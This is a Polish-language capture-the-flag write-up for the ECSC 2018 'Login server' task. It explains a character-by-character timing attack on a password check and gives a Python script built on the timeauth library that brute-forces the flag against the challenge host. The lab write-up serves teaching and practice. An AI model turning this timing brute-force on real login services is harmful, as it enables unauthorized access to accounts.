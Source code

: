 # Login server
##### misc
##### Punkty: 300
##### Rozwiązań: 13


>There is a mysterious service that I have no idea how to hack.
Update 2018-06-19 12:30:
There is a mysterious service that I have no time to hack.
We have also changed the password. Now it's the flag.
nc ecsc18.hack.cert.pl 10013
---

Pod podanym adresem serwer prosi o podanie hasła. Z opisu zadania możemy przypuszczać, że algorytm sprawdzający hasło podatny jest na time attack. W najprostszym przypadku oznacza to, że istnieje korelacja między długością poprawnego prefiksu podanego hasła a czasem odpowiedzi od serwera.
Na przykład hasło sprawdzane jest znak po znaku, a przy pierwszym niepoprawym znaku wysyłana jest informacja o niepoprawnym haśle.
```bash
➜  ~ nc ecsc18.hack.cert.pl 10013
AWSUM Login Server(tm)
Please enter password: admin1
Invalid password!
dupa.8
Invalid password!
^C% 
```

Z taką wiedzą możemy mieżyć czas odpowiedzi na ciągi skonstruowane w następujący sposób:
`[poprawny_prefiks][zgadywany_znak]`.
Dla jednego z ciągów czas odpowiedzi powinien być dłuższy. Oznacza to, że ten ciąg jest poprawnym prefiksem prawidłowego hasła.

Ostateczne rozwiązanie bazowało na lekko zmodyfikowanym kodzie z repozytorium `https://github.com/SakiiR/timeauth`. 
Wystarczyło zaimplementować odpowiednią klasę.

```python
class ExampleChecker(TimeAuthChecker):

    def __init__(self, host, port, length, charset_in, base):
        super(self.__class__, self).__init__(
            charset=charset_in,
            token_length=length,
            hidden_char="*",
            base_token=base
        )

        self.r = remote(host, port)
        self.r.recvuntil(': ')
        self.r.sendline('a') 
        self.r.recvline()
        print("connected")

    def request(self):
        self.r.sendline(self.get_token())
        response = self.r.recvline()
        if 'Invalid' not in response:
            print(response)

if __name__ == "__main__":
    host = "ecsc18.hack.cert.pl"
    port = 10013
    length = 32
    base = "ecsc{"
    charset = string.printable
    a = ExampleChecker(host, port, length, charset, base)
    a.process()
    a.print_token()
```
Aby zmaksymalizować szansę powodzenia ataku należało zadbać o stabilność pomiarów czasu, czyli o stabilność łącza. Atak należało przeprowadzić z serwera jak nabliżej atakowanego serwera. Po spełnieniu tego warunku zadanie nie stawiało oporu.

